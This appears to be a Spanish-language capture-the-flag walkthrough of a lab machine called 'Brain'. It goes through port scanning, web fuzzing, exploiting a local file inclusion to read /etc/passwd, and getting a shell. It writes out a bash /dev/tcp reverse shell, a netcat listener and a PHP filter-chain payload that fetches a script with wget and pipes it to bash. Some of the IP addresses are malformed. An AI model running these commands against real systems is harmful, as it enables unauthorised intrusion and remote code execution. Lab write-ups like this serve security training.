# Máquina Brain

### Reconocimiento de la Ip de la máquina víctima



### Puertos abiertos

sudo nmap -sS --disable-arp-ping --min-rate 6000 -p- --open -vvv -Pn 192.168.5.163



### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 192.168.5.163



### Fuzzing web

feroxbuster --url http://192.168.5.163/ -w /usr/share/seclists/Discovery/Web-Content/big.txt



entro a ver el index.php



entonces pruebo un posible LFI

wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://192.168.5.163/index.php?FUZZ=../../../../../../../../../../../../../etc/passwd" --hl=7



Verifico los usuarios:

http://192.168.5.163/index.php?include=/../../../../../../../../../etc/passwd



### Explotación

Utilicé la herramienta php_filter_chain_generator -> https://github.com/synacktiv/php_filter_chain_generator

a.- Creamos una reverse shell llamada rev con el siguiente contenido:

nano r

bash -i >& /dev/tcp/192.168.131/443 0>&1 

b.- Iniciamos un servidor web con python en la carpeta donde creamos el rev

python3 -m http.server 80

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. Con la herramienta php_filter_chain_generator, creamos el wrapper

python3 php_filter_chain_generator.py --chain '<?=`wget -O- 192.16.5.131/rev|bash`?>'

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://192.168.5.163/index.php?include=wrapper

f.- Tenemos acceso



ejecuto el comando ps -faux:



cambio al usuario ben:



### Escalar privilegios







### user.txt



### root.txt

